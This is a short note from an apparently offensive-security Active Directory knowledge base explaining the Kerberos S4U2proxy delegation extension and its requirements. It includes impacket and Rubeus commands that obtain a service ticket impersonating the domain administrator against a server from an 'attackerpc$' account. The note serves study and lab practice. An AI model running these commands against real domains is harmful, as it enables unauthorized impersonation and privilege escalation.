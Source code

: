 ```yaml
---
title: S4U2proxy
---
```


> The *Service for User to Proxy* extension provides a service that obtains a [[notes/ad/kerberos-st]] to another service on behalf of a user.
> The second service is typically a proxy performing some work on behalf of the first service, and the proxy is doing that work under the authorization context of the user.
> ([source](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a))

S4U2proxy uses a forwardable ST obtained trough [[notes/ad/kerberos-s4u2self]] to request a ST for the SPN.
The DC verifies that `msDS-AllowedToDelegateTo` attribute of the requesting account contains the requested SPN.

Requirements ([source](./roses-are-red-violets-are-blue-s4u-bamboozles-me-u2u-too-charlie-bromberg-northsec-2023.pdf)):

- request must include an additional-ticket as evidence
- additional ticket must either be forwardable or have the [[notes/ad/rbcd]] bit set in the PA-PAC-OPTIONS
- requester must be allowed to delegate to target via [[notes/ad/constrained-delegation]] or [[notes/ad/rbcd]]
- ST obtained with S4U2proxy is always forwardable

Get a ST to impersonate an admin against `srv01$`.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    impacket-getst -impersonate administrator -spn cifs/srv01.corp.local -k -no-pass 'corp.local/attackerpc$'
    export KRB5CCNAME=$PWD/administrator.ccache
    ~~~

=== "[[notes/tools/rubeus]]"
    ~~~ bat
    .\rubeus.exe s4u /nowrap /impersonateuser:administrator /msdsspn:cifs/srv01.corp.local /user:attackerpc$ /aes256:%key%
    ~~~

References:

- [GOAD - part 11 - ACL](http://web.archive.org/web/20221209174533/https://mayfly277.github.io/posts/GOADv2-pwning-part11/)
